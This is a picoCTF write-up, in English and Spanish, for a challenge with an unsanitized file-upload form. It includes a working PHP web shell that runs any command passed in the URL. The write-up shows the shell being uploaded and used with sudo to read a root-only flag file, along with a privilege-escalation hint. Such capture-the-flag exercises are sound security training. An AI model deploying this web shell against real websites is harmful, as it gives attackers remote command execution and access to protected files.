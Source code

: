 A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.
______________
## Hints
* File upload was not sanitized
* Whenever you get a shell on a remote machine, check `sudo -l`
___________________
## Solucion

Se ingresa a la página. Se hace el siguiente script: upload.php

```
<?php  
if ( isset ( $_GET [ 'cmd' ])){  
echo "<pre>" ;  
$cmd = $_GET [ 'cmd' ]; // Obtener el comando de la cadena de consulta  
system ( $cmd ); // Ejecutar el comando y mostrar la salida  
echo "</pre>" ;  
}  
?>
```

Lo subimos a la pagina y en la url agregamos  /upload.php:
http://standard-pizzas.picoctf.net:58213/upload.php
The file upload.php has been uploaded Path: uploads/upload.php


Ingresamos para que salga la bandera :
http://standard-pizzas.picoctf.net:58213/uploads/upload.php?cmd=sudo%20cat%20/root/flag.txt
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}